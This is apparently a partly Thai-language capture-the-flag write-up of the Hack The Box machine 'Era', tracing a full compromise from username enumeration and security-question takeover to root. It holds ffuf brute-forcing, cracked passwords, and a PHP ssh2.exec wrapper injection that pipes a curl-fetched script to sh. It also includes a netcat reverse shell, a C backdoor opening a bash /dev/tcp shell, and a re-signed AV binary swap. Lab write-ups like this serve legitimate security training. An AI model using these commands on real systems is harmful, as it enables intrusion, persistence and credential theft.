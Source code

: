 

![alt text](image.png)


![alt text](image-1.png)

![alt text](image-2.png)

![alt text](image-3.png)

information leaked by error "Username already exist"

this web have 2 authentication way 

1.username/password

2.security question 

![alt text](image-4.png)


on the reset.php we cam set security question on admin username

![alt text](image-5.png)

login as security question 


![alt text](image-7.png)

![alt text](image-6.png)

```
ffuf -w brucNum.txt -u http://file.era.htb/download.php?id=FUZZ  -fs 7686 -H "Cookie: PHPSESSID=glpnhmspppdeoq8meq6mfhhkmm" 

```

เนื่องจาก web ไม่ยอม exec file upload ใดๆ จึงลอง sql injection,brute force id


![alt text](image-8.png)

![alt text](image-9.png)

![alt text](image-10.png)

ภายในไฟล์ที่ download มา จะมี

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/Machines/Era]
└─$ file key.pem 
key.pem: OpenSSH private key (no password)

                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads/hackthebox/Machines/Era]
└─$ file filedb.sqlite 
filedb.sqlite: SQLite 3.x database, last written using SQLite version 3037002, file counter 93, database pages 5, cookie 0x5, schema 4, UTF-8, version-valid-for 93


```

![alt text](image-11.png)

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/Machines/Era]
└─$ john hashes.txt --show 
eric:america
yuri:mustang


```
admin_ef01cab31aa

![alt text](image-12.png)

![alt text](image-13.png)

ใช้สิท admin ส่ง parameter show ก็จะใช้ได้ ซึ่งมีการ allow wrapper protacal 

```
Wrapper protocol คือ โปรโตคอลที่ทำหน้าที่เป็นตัวกลางหรือตัวห่อหุ้มโปรโตคอลอื่น เพื่อเพิ่มฟังก์ชันการทำงานหรือปรับเปลี่ยนพฤติกรรมของโปรโตคอลเดิม. ยกตัวอย่างเช่น ใน PHP, wrapper protocol จะช่วยให้สามารถเข้าถึงไฟล์หรือทรัพยากรต่างๆ ผ่าน URL ได้

```

![alt text](image-15.png)

https://www.php.net/manual/en/function.fopen.php


เลือก wrapper protocal ที่สามารถ exec commnad ได้ นั่นคือ

ssh2.exec://eric:america@127.0.0.1/curl+http://10.10.14.22/

```
$file_content = fopen($wrapper ? $wrapper . $file : $file, 'r');

```

ไม่เพียงแค่นั้น ขณะที่เรียก wrapper protocal มันยัง concat $file เข้าไปด้วย

![alt text](image-14.png)


```
shellTemp.sh

mkfifo /tmp/s; /bin/sh </tmp/s | nc 10.10.14.22 4444 >/tmp/s; rm /tmp/s


GET /download.php?id=54&show=true&format=ssh2.exec://eric:america@127.0.0.1/curl+http://10.10.14.22/shellTemp.sh|sh;

```
![alt text](image-16.png)


```
──(kali㉿kali)-[~/…/hackthebox/Machines/Era/files]
└─$ cat backdoor.c 
#include <stdlib.h>
int main() {
    system("/bin/bash -c '''bash -i >& /dev/tcp/10.10.14.22/4445 0>&1'''");
    return 0;
    }
ric@era:~$ gcc -static -o monitor_backdoor backdoor.c
gcc -static -o monitor_backdoor backdoor.c
eric@era:~$ objcopy --dump-section .text_sig=sig /opt/AV/periodic-checks/monitor
<ction .text_sig=sig /opt/AV/periodic-checks/monitor


eric@era:~$ objcopy --add-section .text_sig=sig monitor_backdoor
objcopy --add-section .text_sig=sig monitor_backdoor
eric@era:~$ 
cp monitor_backdoor /opt/AV/periodic-checks/monitor


```
![alt text](image-17.png)